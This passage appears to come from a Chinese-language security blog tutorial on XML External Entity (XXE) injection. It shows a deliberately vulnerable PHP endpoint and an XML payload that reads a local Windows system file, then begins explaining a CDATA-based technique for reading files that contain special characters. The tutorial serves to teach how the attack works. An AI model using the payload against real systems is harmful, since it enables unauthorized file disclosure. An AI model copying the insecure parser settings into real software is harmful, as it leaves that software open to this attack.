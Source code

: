 **xxe.php:**

```php
<?php
    libxml_disable_entity_loader (false);
    //若为true，则表示禁用外部实体
    $xmlfile = file_get_contents('php://input');
    //可以获取POST来的数据
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    $creds = simplexml_import_dom($dom);
    echo $creds;
?>
```

**payload:**

```xml-dtd
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "file:///c:/windows/system.ini"> ]> 
<creds>&goodies;</creds>
```

**结果如下图：**

![XXE1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/XXE1.png)

因为这个文件没有什么特殊符号，于是我们读取的时候可以说是相当的顺利，**那么我么要是换成下面这个文件呢？**

![XXE2](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/XXE2.png)

**结果如下图：**

![XXE3](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/XXE3.png)

可以看到，不但没有读到我们想要的文件，而且还给我们报了一堆错，怎么办？这个时候就要祭出我们的另一个神器了------CDATA ，简单的介绍如下(引用自我的一片介绍 XML 的博客)

- 有些内容可能**不想让解析引擎解析**执行，而是当做原始的内容处理，用于把整段数据解析为纯字符数据而不是标记的情况包含大量的 `<``>` `&` 或者`"`字符，CDATA节中的所有字符都会被当做元素字符数据的常量部分，而不是 xml标记

  ```xml-dtd
  <![CDATA[
  xxxxxxxxx
  ]]>
  ```

- 可以输入任意字符除了`]]>` 不能嵌套

- 用处是万一某个标签内容包含特殊字符或者不确定字符，我们可以用CDATA包起来

那我们把我们的读出来的数据放在 CDATA 中输出就能进行绕过，但是怎么做到，我们来简答的分析一下

首先，找到问题出现的地方，问题出现在

```xml-dtd
...
<!ENTITY goodies SYSTEM "file:///c:/windows/system.ini"> ]>
<creds>&goodies;</creds>
```
